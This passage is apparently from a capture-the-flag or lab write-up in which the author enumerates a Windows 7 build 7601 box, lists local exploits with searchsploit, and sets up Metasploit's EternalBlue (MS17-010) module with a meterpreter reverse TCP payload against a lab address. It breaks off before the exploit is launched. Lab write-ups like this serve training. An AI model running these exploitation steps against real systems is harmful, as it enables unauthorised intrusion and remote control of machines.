 TONS of information here! We can see a slew of open ports running various services, and with the -sC flag, we are able to run a basic nmap script scan that comes by default. 

## Exploitation

I jumped the gun and was curious to see what exploits Windows 7 Build 7601 are available:

```bash
➜  ~ searchsploit Windows 7 7601
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Authorization Manager 6.1.7601 - 'azman' XML External Entity Injection                                                                       | windows/local/40859.txt
Microsoft MSINFO32.EXE 6.1.7601 - '.NFO' XML External Entity Injection                                                                                 | windows/local/40864.txt
Microsoft Windows 7 build 7601 (x86) - Local Privilege Escalation                                                                                      | windows/local/47176.cpp
MuPDF < 20091125231942 - 'pdf_shade4.c' Multiple Stack Buffer Overflows                                                                                | windows/local/10244.txt
Omnicom Alpha 4.0e LPD Server - Denial of Service                                                                                                      | windows/dos/17601.py
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


I decided to look up the infamous EternalBlue exploit and see if it would work on this box simply due to the build number and OS being over a decade old. I had to try it!!!

I loaded up metasploit, searched for eternalblue, pointed my lazers at 10.10.81.233 and fired!

```bash
msf5 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.81.233
rhosts => 10.10.81.233
msf5 exploit(windows/smb/ms17_010_eternalblue) > rhosts => 10.10.81.233
```